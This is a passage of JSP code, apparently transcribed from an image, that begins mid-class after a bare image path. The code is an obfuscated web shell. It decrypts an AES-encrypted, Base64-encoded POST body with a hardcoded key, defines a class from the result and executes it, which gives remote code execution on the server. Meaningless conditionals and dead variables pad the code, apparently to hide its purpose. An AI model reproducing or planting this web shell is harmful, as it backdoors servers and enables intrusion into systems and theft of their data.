 ```jsp
            return super.defineClass(b, 0, b.length);
        }
    }
%&gt;&lt;%
    if (request.getMethod().equals("POST")) {
        String k = "";
        if (1721747 &lt; 17177755){
            k = "e45e"+"329" +""+ "feb5"+"d925b";
        }
        int i = 0;
        do{
            session.putValue("u", k);
        }while (i &lt; 0);
        Cipher c = null;
        if (0 &lt; 188819091){
            c = Cipher.getInstance("AES");
        }
        if (17471741 == 17471741){
            c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
        }
        if (true){
            if ((74721741 &gt;&gt; 11) != 1 ){
                float f1 = 31.4145f;
            }

            ClassLoader CL = this.getClass().getClassLoader();
            U u = new U(CL);
            if ((74721741 &gt;&gt; 11) != 1 ){
                float f1 = 31.4145f;
            }
            BufferedReader reader = request.getReader();
            if ((74721741 &gt;&gt; 11) != 1 ){
                float f1 = 31.4145f;
            }

            String readLine;
            if (2124124 &lt; 1182){
                readLine = "pageContext";
            }else{
                readLine = reader.readLine();
            }
            byte[] decode = Base64.getDecoder().decode(readLine);

            if (2020101 == 2020101){
                byte[] bytes = c.doFinal(decode);
            }

            u.g(c.doFinal(decode)).newInstance().equals(pageContext);
        }
    }
%&gt;
```
